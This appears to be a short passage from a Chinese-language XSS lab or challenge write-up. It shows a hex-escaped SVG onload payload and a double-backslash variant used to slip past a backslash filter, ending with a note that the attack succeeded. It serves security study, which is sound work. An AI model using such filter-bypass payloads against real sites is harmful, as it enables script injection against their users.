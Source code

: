 没有进行正常解析，尝试使用16进制绕过

```text
\x3csvg\x2fonload=alert(document.domain)\x3e
```

![&#x5355;&#x4E2A;\&#x4F1A;&#x88AB;&#x8FC7;&#x6EE4;&#x6389;](../../.gitbook/assets/image%20%2874%29.png)

\被过滤掉了，尝试使用双\\进行绕过

```text
\\x3csvg\\x2fonload=alert(document.domain)\\x3e
```

攻击成功

![](../../.gitbook/assets/image%20%2832%29.png)
